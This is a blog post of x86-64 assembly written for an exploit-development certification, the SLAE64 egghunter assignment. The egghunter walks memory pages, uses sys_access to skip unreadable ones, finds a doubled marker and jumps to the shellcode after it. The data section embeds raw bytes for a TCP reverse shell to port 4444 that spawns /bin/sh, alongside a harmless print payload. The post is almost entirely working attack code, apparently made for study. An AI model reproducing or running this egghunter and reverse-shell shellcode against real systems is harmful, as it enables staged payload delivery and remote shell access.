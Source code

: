 ```yaml
---
layout: post
title: SLAE64 Assignment 3 - egghunter
excerpt: asm code for my egghunter
---
```


    ; name        : egghunter 
    ; author      : Sandro "guly" Zaccarini SLAE64-1497
    ; purpose     : this code has been written for SLAE64 assignment 3
    ; license     : CC-BY-NC-SA
    ; description :
    ; this code will search a string in memory, repeated twice to avoid potential false
    ; positives, and when finds it jumps just after to execute following code.
    ; because this course is about assembly, i'm trying avoid any C code, therefore also
    ; stage2 will be placed in this file in data section.
    ;
    ; the program starts from address memory near 0x400000 because i know that .data places
    ; values there, and reads 4 bytes to compare to a known egg
    ; should be noted that a different scenario, where for example i exploited a buffer
    ; overflow, i could've places stage2 at stack page and the seek would be way longer
    ;
    ; i also know that not all addresses are readable by the program: that's why i'm
    ; checking if i can read before to compare.
    
      global _start
      section .text
    
      exit:
    xor rax,rax
    mov rdi,rax
    mov al,0x3C
    syscall
    
      _start:
    ; start by zeroing some regs
    xor rax,rax
    push rax
    pop rdx
    push rax
    pop rsi
    push rax
    pop r14
    ; and because i won't need ebx, and ecx will be completely overwritten by a mov later
    
    ; GUGU will match revshell, little endian, placed at like 0x40208c
    ; i'm using 32bit registers here because using 64 will make this code to match as egg
    mov r14d, 0x55475547
    ; LYLY will match writeHelo, little endian, placed at like 0x402000
    ;mov r14d, 0x594c594c
    
    ; i'm starting somewhere near from 0x400000 because i know where to look
    ;mov edx, 0x400001 ; this has null, let's xor it
    mov edx,0x11510110
    ;mov edx,10501010
    xor edx,0x11111111
    
      nextp:
    ; align page, for this example i would have it 0x400fff
    or dx, 0xfff
    ; now edx will hold 0x400000 and so on
    
      nextb:
    ; and with this inc i'll be at the top of the memory page, which will be 0x400001
    inc rdx
    
    ; inc rdx will result in an overflow of our 64bit register sooner or later
    ; by checking OF flag, we know that we reached the end of the memory:
    ; to avoid DoSsing the box, we call a neat exit
    jo exit
    
    ; check if we can read the memory
    ; i'm using sys_access syscall here, that has code 0x15
    ; she needs of course arguments:
    ; rax => sys_access id, 0x15
    ; rdi => pointer to page address
    xor rax, rax
    mov al, 0x15
    lea rdi, [rdx+0x4]
    
    ; do the call
    syscall
    
    ; as usual, eax will hold res code. EFAULT, means noaccess, is 0xf2
    cmp al, 0xf2
    ; if we have a fault here, jump to next page by adding 0x1000
    jz nextp
    
    ; search for the egg
    cmp [edx], r14d
    jnz nextb
    
    ; search again for 2nd copy of the egg (avoid matching code itself or any other false positive)
    cmp [edx+4], r14d
    jnz nextb
    
    ; egg found, jump to shellcode
    lea esi, [edx + 8]
    jmp rsi
    
      section .data
    ; looking for EGG GUGU i'm going to receive a revshell on localhost port 4444 by using the code from 03_revshell_tcp.asm
    ;revshell: db  0x47,0x55,0x47,0x55,0x47,0x55,0x47,0x55
    revshell: db  0x47,0x55,0x47,0x55,0x47,0x55,0x47,0x55,0x48,0x31,0xc0,0x50,0x5e,0x56,0x5a,0x50,0x5f,0x66,0x83,0xc0,0x29,0x40,0xb7,0x02,0x48,0xff,0xc6,0x0f,0x05,0x89,0xc7,0x48,0x31,0xc0,0x50,0xc7,0x44,0x24,0x04,0x7f,0x01,0x01,0x01,0x66,0xc7,0x44,0x24,0x02,0x11,0x5c,0xc6,0x04,0x24,0x02,0x54,0x5e,0x6a,0x10,0x5a,0xb0,0x2a,0x0f,0x05,0x31,0xc0,0x48,0x31,0xf6,0xb0,0x21,0x0f,0x05,0xb0,0x21,0xff,0xc6,0x0f,0x05,0xb0,0x21,0xff,0xc6,0x0f,0x05,0x48,0x31,0xd2,0x48,0x89,0xd0,0x52,0xb2,0x04,0x48,0x89,0xe6,0x4c,0x89,0xcf,0x0f,0x05,0x81,0x3c,0x24,0x67,0x75,0x6c,0x79,0x75,0xe6,0x48,0x31,0xc0,0x50,0x48,0x89,0xe2,0x48,0xbb,0x2f,0x62,0x69,0x6e,0x2f,0x2f,0x73,0x68,0x53,0x48,0x89,0xe7,0x50,0x57,0x48,0x89,0xe6,0x48,0x83,0xc0,0x3b,0x0f,0x05
    ; looking for EGG LYLY i'm just printing Helo string
    writeHelo: db 0x4c,0x59,0x4c,0x59,0x4c,0x59,0x4c,0x59,0x48,0x31,0xc0,0x48,0x31,0xff,0x48,0xff,0xc7,0x50,0x48,0xbb,0x6c,0x6c,0x6f,0x20,0x67,0x75,0x6c,0x79,0x53,0x66,0x68,0x68,0x65,0x48,0x89,0xe6,0xb0,0x01,0x48,0x89,0xc2,0xb2,0x0a,0x0f,0x05,0x48,0x31,0xc0,0x48,0x89,0xc7,0xb0,0x3c,0x0f,0x05
    
    ; This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
